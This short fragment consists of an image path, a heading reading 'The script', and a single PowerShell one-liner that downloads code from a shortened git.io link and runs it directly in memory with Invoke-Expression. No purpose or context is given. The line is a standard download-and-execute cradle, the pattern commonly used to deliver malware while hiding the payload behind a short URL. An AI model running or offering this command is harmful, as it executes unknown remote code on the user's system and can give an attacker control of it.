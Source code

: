 # The script
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://git.io/JJDkL')"
